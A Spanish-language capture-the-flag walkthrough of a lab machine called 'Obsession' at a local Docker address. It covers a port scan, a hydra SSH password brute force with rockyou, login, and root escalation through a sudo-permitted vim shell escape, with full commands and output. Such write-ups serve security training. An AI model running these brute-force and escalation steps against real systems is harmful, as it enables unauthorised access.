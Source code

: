# Explotación de la máquina Obsession

## Información general
- **Nombre de la máquina**: Obsession
- **Dirección IP**: 172.17.0.2
- **Puntos de entrada**: FTP (Puerto 21), SSH (Puerto 22), HTTP (Puerto 80)

## Reconocimiento
Realizamos un escaneo de puertos, servicios y versiones con el siguiente comando.

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-06 13:22 -05
Initiating ARP Ping Scan at 13:22
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 13:22, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 13:22
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 21/tcp on 172.17.0.2
Completed SYN Stealth Scan at 13:22, 0.76s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000040s latency).
Scanned at 2024-12-06 13:22:30 -05 for 1s
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
Los puertos 21, 22 y 80 estan abierto asi que procedemos a revisar el codigo fuente de la web.
Encontramos que tiene una linea de comentarios la cual nos indica lo siguiente 

```bash
<! -- Utilizando el mismo usuario para todos mis servicios, podré recordarlo fácilmente -->
```
Con la informacion que la misma web nos indica y con un poco de logica el usuario deberia de ser ```russoski```

Asi que procedo a hacer un ataque de fuerza bruta con hydra

```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-06 13:28:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-06 13:28:49
```

Rapidamente nos encuentra un password en este caso ```iloveme```

Procedemos a conectarnos mediante el servicio ssh:

```bash
sudo ssh russoski@172.17.0.2                                          
russoski@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.8.11-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Jun 18 04:38:10 2024 from 172.17.0.1
russoski@b47b308f2dfe:~$ whoami
russoski
```

Y wala! estamos conectados como russoski. 
El siguiente paso seria intentar escalar privilegios como root para esto usamos el comando ``` sudo -l ```

## Escala de privilegios

```bash
sudo -l
Matching Defaults entries for russoski on b47b308f2dfe:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User russoski may run the following commands on b47b308f2dfe:
    (root) NOPASSWD: /usr/bin/vim

```
Nos indica que hay permisos incorrectos y a la vez nos muestra que podriamos escalar privilegios con vim como no recuerdo como usamos searchbins: 

```bash
sudo vim -c ':!/bin/bash'

root@b47b308f2dfe:/home/russoski# whoami
root

```
Ya somos root!!
